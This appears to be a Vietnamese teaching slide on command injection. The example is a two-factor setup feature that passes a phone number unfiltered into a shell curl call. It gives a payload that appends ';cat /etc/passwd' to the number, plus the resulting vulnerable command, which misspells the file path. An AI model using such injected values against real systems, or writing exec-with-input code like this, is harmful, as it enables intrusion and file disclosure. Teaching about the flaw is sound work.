

# Khai thác
Một ứng dụng cho phép dùng số điện thoại để bật xác thực hai yếu tố , tuy nhiên nó sử dụng một lệnh exec để gửi một yêu cầu tới bên thứ ba bằng curl với tham số đầu vào là số điện thoại tuy nhiên ko có bất kì bộ lọc nào.
Command injection xảy ra.
Payload : 2-666-777-8888;cat /etc/passwd
Code vuln : curl -o -l -L -s -w %{http_code} https://apigree.sms.gateway.com?number=2-666-777-8888;cat /etc/paswd